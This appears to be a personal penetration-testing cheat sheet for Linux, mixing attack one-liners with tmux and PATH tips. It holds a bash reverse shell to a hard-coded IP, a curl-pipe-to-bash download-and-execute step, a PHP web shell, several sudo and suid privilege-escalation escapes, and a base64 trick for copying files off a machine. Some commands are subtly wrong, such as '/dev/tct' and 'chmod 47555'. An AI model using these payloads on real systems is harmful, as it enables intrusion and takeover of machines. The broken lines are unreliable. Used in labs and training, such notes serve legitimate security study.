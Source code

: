 # Linux

## Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": [GTFObins](https://gtfobins.github.io/)

### Enumeration

find files user has access to:

```bash
find / -user <username> -ls 2>/dev/null
```
`which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null` - Check if each of these useful programs are installed on the machine

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

download **and**  execute script \(such as LinEnum.sh\) \[from remote host\]: `curl <url or IP>/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit <name_of_program> 

#to pull exploit code:
searchsploit -x <name/number of exploit>
```

enumerate running processes: `pspy`

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Semi-automated enumeration all-in-one (use this!): [nmapAutomator](https://github.com/21y4d/nmapAutomator)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

enumerate info about current processes running from: `/proc/self/status`

common Local File Inclusion locations: [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

### Upgrade shells:

```text
1. sudo python -c 'import pty; pty.spawn("/bin/sh")'
2. sudo perl -e 'exec "/bin/sh";'
3. sudo ruby -e 'exec "/bin/sh"'
```

php shell: `<?php system($_GET['variable_name']); ?>`

bash reverse shell:

```text
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

nc listener: `nc -lvnp <port>`

To upgrade to fully interactive shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #[to background]
stty raw -echo; 
fg #[to return shell to foreground]
export TERM=xterm
```

### TMUX

tmux can keep alive sessions if you lose ssh sessions etc, can split panes and more:

```text
tmux new -s <session_name> 
ctrl-b = prefix key (enables addnl commands) 
+[%] vertical pane  
+["] horizontal pane 
+[alt-space] switch pane between horizontal or vertical
+[arrow_keys] move between panes 
+[z] zoom in/out on pane 
+[?] help for tmux 
+[t] timer
```

tmux plugins:

* tmux logging plugin \(get this!!\) can save log of tmux windows
* [better mouse mode](https://github.com/NHDaly/tmux-better-mouse-mode)

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

execute `sudo` command as another user: `sudo -u <username> [command]`

execute any command while in `less`: `!<cmd>`

Privilege Escalation to Root by setting suid on `/bin/less`: `chmod 47555 /bin/less`

Privilege Escalation to Root with `find`: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

If your user can `sudo` any of these text editors:
```bash
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Misc Linux

Raw memory location so no files on disk: `/dev/shm/`

list all running commands:

```bash
ps -eo command`
#change delimiter to \n instead of <space> (loop by line): 
IFS=$'\n'
#Then loop through each line in output: 
for i in $(ps -eo command); do echo $i; done
```

'new' netstat: `ss -lnp | grep 9001` \#check if any connections on port 9001

get user's superuser permissions: `sudo -l`

copy files to local machine without file transfer:

```bash
base64 -w 0 /path/of/file/name.file 
#copy base64 then: 
echo -n <base64material> | base64 -d > filename.file
```

pretty print JSON text in console (https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/). Pipe the JSON output to `jq`.  Example from NASA ISS API: `curl -s http://api.open-notify.org/iss-now.json | jq`

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

convert rpm to debian packages: `alien <file.rpm>`

Add new $PATHs to `.profile` rather than '.bashrc`

Makes `pwd` part of path so dont need `./` * NOT RECOMMENDED for home use! * `export PATH='pwd':$PATH`

The bullet-proof way to add a path (e.g., ~/opt/bin) to the PATH environment variable is:
(from https://unix.stackexchange.com/questions/26047/how-to-correctly-add-a-path-to-path)
```
PATH="${PATH:+${PATH}:}~/opt/bin"
for appending (instead of PATH="$PATH:~/opt/bin") and

PATH="~/opt/bin${PATH:+:${PATH}}"
for prepending (instead of PATH="~/opt/bin:$PATH")
```
cycle through previous arguments: `alt-.`

move between "words" on a command line `ctrl-[arrow_keys]`

